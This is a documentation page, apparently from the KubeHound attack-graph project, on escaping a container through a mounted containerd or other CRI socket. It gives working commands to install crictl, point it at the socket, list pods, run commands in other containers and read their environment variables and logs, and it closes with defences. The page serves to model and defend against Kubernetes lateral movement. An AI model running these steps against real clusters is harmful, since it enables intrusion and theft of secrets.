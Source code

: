 # EXPLOIT_CONTAINERD_SOCK

Container escape via the `containerd.sock` file that allows executing a binary into another container.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../vertices/CONTAINER.md)  | [Container](../vertices/CONTAINER.md) | [Lateral Movement, TA0008](https://attack.mitre.org/tactics/TA0008/)  |

## Details

When the `containerd.sock` (or other equivalent - see the list below) is mounted inside a container, it allows the container to interact with container runtime. Therefore an attacker can execute any command in any container present in the cluster. This allows an attacker to do some lateral movement across the cluster. 

## Prerequisites

Execution within a container process with the following unix socket being (or any parent directory) being mounted inside the container:

```bash
unix:///var/run/dockershim.sock
unix:///run/containerd/containerd.sock
unix:///run/crio/crio.sock
unix:///var/run/cri-dockerd.sock
```

:rotating_light: sockets mounted as readonly can still be used for this attack. :rotating_light: This can be demonstrated as follows:

```bash
# Create an alpine container with the docker socket mounted as readonly
docker run -v /var/run/docker.sock:/var/run/docker.sock:ro --rm -it alpine sh

# Within the alpine container execute a docker command
docker ps
```

See the [example pod spec](../../test/setup/test-cluster/attacks/EXPLOIT_CONTAINERD_SOCK.yaml).

## Checks

Look for any socket being mounted in the container by running a simple find command:

```bash
find / -name dockershim.sock -o -name containerd.sock -o -name crio.sock -o -name cri-dockerd.sock  2>/dev/null
```

## Exploitation

To exploit this vulnerability, we will use a CLI for Kubelet Container Runtime Interface (CRI) provided by Google for debugging purposes:  crictl.

```bash
apt update && apt install -f wget tar
wget https://github.com/kubernetes-sigs/cri-tools/releases/download/v1.27.0/crictl-v1.27.0-linux-amd64.tar.gz -O /tmp/crictl.tar.gz
tar xvf /tmp/crictl.tar.gz -C /tmp
```

This tools allows to interact with Kubernetes using a unix socket:

```bash
unix:///var/run/dockershim.sock
unix:///run/containerd/containerd.sock
unix:///run/crio/crio.sock
unix:///var/run/cri-dockerd.sock
```

Once you have the path for the mounted socket, configure `crictl` to use it:

```bash
MOUNTED_SOCK_PATH=/host/run/containerd/containerd.sock 
echo "runtime-endpoint: unix://${MOUNTED_SOCK_PATH}
image-endpoint: unix://${MOUNTED_SOCK_PATH}
debug: false" > /tmp/crictl.yaml && alias cc='/tmp/crictl --config /tmp/crictl.yaml'
```

Once everything is configured, you should be able to run command on another container of your choice.

To list all the pods: 

```bash
cc ps -a
```

Executing a command on another pod:

```bash
cc exec -s 05c862f55a017 hostname
``` 

### Notes

The `-s` is important otherwise, `crictl` will try to use the http endpoint to run the command, resulting in errors like:

```bash
FATA[0000] execing command in container: error sending request: Post "http://127.0.0.1:41903/exec/PUpJoUv0": dial tcp 127.0.0.1:41903: connect: connection refused
```

With crictl you can also access sensitive information:
+ `crictl inspect`: access env variable from any container
+ `crictl logs`: retrieve all the logs from any container

## Defences

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount for the following locations:

```bash
/var/run/dockershim.sock
/run/containerd/containerd.sock
/run/crio/crio.sock
/var/run/cri-dockerd.sock
```

## Calculation

+ [ExploitContainerdSock](../../pkg/kubehound/graph/edge/exploit_containerd_sock.go)

## References:

+ [CRICTL GitHub](https://github.com/kubernetes-sigs/cri-tools/blob/419e153f330a5f6175aa9b6a03b339080c58ca3e/docs/crictl.md)
+ [Debugging Kubernetes nodes with crictl](https://kubernetes.io/docs/tasks/debug/debug-cluster/crictl/)
